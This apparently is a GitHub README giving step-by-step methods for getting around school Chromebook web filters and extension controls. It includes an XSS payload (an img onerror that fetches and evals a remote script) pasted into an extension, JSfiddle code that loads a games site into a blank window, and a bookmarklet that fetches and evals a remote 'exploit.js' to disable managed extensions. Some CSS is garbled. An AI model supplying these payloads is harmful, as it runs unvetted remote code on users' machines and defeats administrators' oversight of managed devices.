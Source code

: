 # stuff
A lot of this will be for how to get certain unblocked sites or for google and some might be unblock methods that will be found from 3hko/ext-remover that may work to this day 
sorry for bad explaining
.Some of the text may be messed up of from shitty code sorry

# how to get unblocked google using WeDo 2.0
credit to @BlobbyBoi for this method

### Requirement
<b> access to Webstore
1. Search up WeDo 2.0 or WeDo2.0
2. Install extention
3. when its finished intalling create a new project
4. once you are in your project click on the the pencil on the top of your screen then the green document
5. once you clicked the green document copy this code
 ```js
 <img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
6. paste the code into the box and now you can browse google without being it being blocked!

# How to get gn-math (unblocked site with web ported games that can be downloaded ) using JSfiddle 
### Requirements a working brain
1. head to JSfiddle.net
2. Now in each of the 3 boxes put each code below in order from HTML CSS and Javascript 
   
  ```HTML
<a id="button" class="button" >Launch</a>
```
```CSS
html,  body {

      0;

      padding: 0;

      height: 100%;

    }

 

    .button {

      display: flex;

      align-items: center;

      justify-content: center;

      width: 100vw;

      height: 100vh;

      background-color: #000000;

      color: #ffffff !important;

      Arial, sans-serif;

      font-size: 24px;

      font-weight: bold;

      cursor: pointer;

      text-decoration: none !important;

      transition: background-color 0.3s, transform 0.2s;

    }

 

    .button:hover {

      background-color: #4a148c !important;

    }
```
```js
document.addEventListener('DOMContentLoaded', function() {

      const button = document.getElementById('button');

      button.addEventListener('click', launch);

    });

 

    function launch() {

      try {

        fetch("https://cdn.jsdelivr.net/gh/gn-math/gn-math-DONTDMCA@main/singlefile.html?t="+Date.now())

          .then(response => response.text())

          .then(text => {

            const newWin = window.open("about:blank", "_blank");

            if (newWin) {

              newWin.document.open();

              newWin.document.write(text);

              newWin.document.close();

            }

          });

      } catch (error) {

        console.error('error:', error);

      }

    }
```
3. Once you are done Pasting all these codes into the boxes click Run then in the bottom right box click launch now you have gn-math!

# Disable extentions  
### Requirements: Bookmarklets must be enabled
this is from 3hk0/ext-remover and credit to @LTbeef if you would like me to remove this from my repository please message me if thats possible here but at some point i will probably add my email for this.
1. Copy down this JavaScript and make it into a bookmark

    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```
    2. After making it into a bookmark go in this link. https://chrome.google.com/webstorex (it will say that the site isnt available or blocked thats fine)
3. once you are there click on the newly made extention and you are finished now you are able to disable extentions and roam the internet freely!
   #unblocked google using Chrome://signin (will be continued on later)




